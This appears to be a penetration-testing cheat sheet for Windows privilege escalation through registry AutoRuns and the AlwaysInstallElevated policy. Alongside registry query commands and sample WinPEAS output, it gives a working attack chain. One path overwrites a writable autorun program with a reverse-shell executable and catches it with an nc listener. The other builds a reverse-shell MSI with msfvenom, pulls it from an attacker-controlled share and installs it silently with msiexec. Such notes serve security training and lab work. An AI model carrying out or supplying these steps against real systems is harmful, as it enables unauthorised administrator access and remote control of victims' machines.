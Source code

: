 
#windows #registry #privesc 

# AutoRuns

Windows can be configured to run commands at startup, with elevated privileges.
These "AutoRuns" are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system ( or wait for it to be restarted ) you may be able to escalate privileges. 

HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For all users
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run : For user logged in 

## Commands for registry


```cmd
===>  req query <KEY_PATH> /v <name_value> /s /f <pattern>

reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion" /v ProgramFilesDir
reg query "HKLM\SOFTWARE" /f "Windows" /s


===> reg add <KEY_PATH> /v <name_value> /t <data_type> /d <data> /f 

reg add "HKCU\Software\TestKey" /v TestValue /t REG_SZ /d "Ceci est une valeur" /f
reg add "HKLM\Software\TestKey" /v TestDWORD /t REG_DWORD /d 1 /f


===> reg delete <KEY_PATH> /v <name_value> /f

reg delete "HKCU\Software\TestKey" /v TestValue /f
reg delete "HKCU\Software\TestKey" /f


===> reg export <KEY_PATH> <Destination_Path> /y 

reg export "HKLM\SOFTWARE\TestKey" C:\Backup\TestKey.reg /y


===> reg import <.reg Path>

reg import C:\Backup\TestKey.reg



===> reg copy <SOURCE_PATH> <DESTINATION_PATH> /s /f 

reg copy "HKCU\Software\TestKey" "HKLM\Software\BackupKey" /s /f



```

#### Output WinPeas Applicationsinfo

```bash
[+] Autorun Applications(T1010)
    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run


```



## 1- Enumerate manually Autorun 

```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

 Result  
```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
Mware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Checks ACLs of Autorun executables 

```cmd
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```cmd
icacls "C:\Program Files\Autorun Program\program.exe"
```

```powershell
(Get-Acl "C:\Program Files\Autorun Program\program.exe").Access
```

Here program.exe run as user is logged 

## 2 - Copy payload executable to overwrite the program 

```cmd
copy /Y reverse.exe "C:\Program Files\Autorun Program\Program.exe"
```

## 3 - Set up another listener and restart Windows

```bash
sudo rlwrap nc -lvnp 53 
```

```cmd
shutdown /r /t 0
```

```powershell
Restart-Computer -ComputerName "PcName"
```

```cmd
wmic os where primary=true reboot
```

```cmd
taskkill /IM explorer.exe /F & shutdown /r /t 0
```

On Windows 10 , at least when the system restarts , it seems to run the command with the privileges of the user who was last logged in to avoid this causing issues.
ff
To avoid this causing issues we log out of the user accout and log as the admin account and restart 

# AlwaysInstallElevated

MSI files are packages files used to install appliications.
These files run with the permissions of the user trying to install them.

Windows allows for these installers to be run with elevated ( i.e admin ) privileges.
If this is the case , we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work.
The "AlwaysInstallElevated" Value must be set to 1 for both local machine:

HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

and the current user :

KHCU\SOFTWARE\Policies\Microsoft\Windows\Installer

If either of these are missing or disabled , the exploit will not work 

## 1 - Enumeration WinPeas

On module windowscreds 

```bash
[+] Checking AlwaysInstallElevated(T1012)

    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

```

We can see that both InstallElevatedRegistry keys were found to be enabled.

## 2 - Verify manually 

```cmd 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

==> AlwaysInstallElevated    REG_DWORD    0x1


reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

==> AlwaysInstallElevated    REG_DWORD    0x1

```

## 3 - Exploit

Create a new reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=53 -f msi > reverse.msi
```

Copy and execute-it

```cmd
copy \\<MY-IP>\shares\reverse.msi .
msiexec /quiet /qn /i reverse.msi
```

/quiet no interact user without GUI
/qn ( Quiet None ) : Delete all dialog boxes or windows 
/i : install a folder




